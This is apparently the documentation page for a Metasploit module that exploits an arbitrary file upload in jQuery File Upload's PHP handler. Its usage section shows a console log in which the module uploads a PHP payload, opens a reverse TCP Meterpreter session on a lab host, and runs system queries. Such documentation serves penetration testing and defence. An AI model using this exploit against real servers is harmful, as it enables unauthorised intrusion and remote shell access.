 ## Intro

This module exploits an arbitrary file upload in the sample PHP upload
handler for blueimp's jQuery File Upload widget in versions <= 9.22.0.

Due to a default configuration in Apache 2.3.9+, the widget's `.htaccess`
file may be disabled, enabling exploitation of this vulnerability.

## Setup

<https://github.com/blueimp/jQuery-File-Upload/wiki/Setup#using-jquery-file-upload-ui-version-on-php-websites>

## Targets

```
Id  Name
--  ----
0   PHP Dropper
1   Linux Dropper
```

## Options

**TARGETURI**

Set this to the base path of jQuery File Upload. `/jQuery-File-Upload`
and those including a version are common. `/upload` may be another.
You may want to use another tool like `dirb` to handle enumeration.

## Usage

```
msf5 exploit(unix/webapp/jquery_file_upload) > check

[*] Checking /jQuery-File-Upload/server/php/index.php
[+] Found /jQuery-File-Upload/server/php/index.php
[*] 172.28.128.3:80 The target service is running, but could not be validated.
msf5 exploit(unix/webapp/jquery_file_upload) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Checking /jQuery-File-Upload/server/php/index.php
[+] Found /jQuery-File-Upload/server/php/index.php
[*] Uploading payload
[+] Payload uploaded: http://172.28.128.3/jQuery-File-Upload/server/php/files/yJF5WXoQgkwW1zK9nDxialLMXg.php
[*] Executing payload
[*] Sending stage (37775 bytes) to 172.28.128.3
[*] Meterpreter session 1 opened (172.28.128.1:4444 -> 172.28.128.3:54382) at 2018-10-22 22:20:20 -0500
[*] Deleting payload

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : ubuntu-xenial
OS          : Linux ubuntu-xenial 4.4.0-134-generic #160-Ubuntu SMP Wed Aug 15 14:58:00 UTC 2018 x86_64
Meterpreter : php/linux
meterpreter >
```
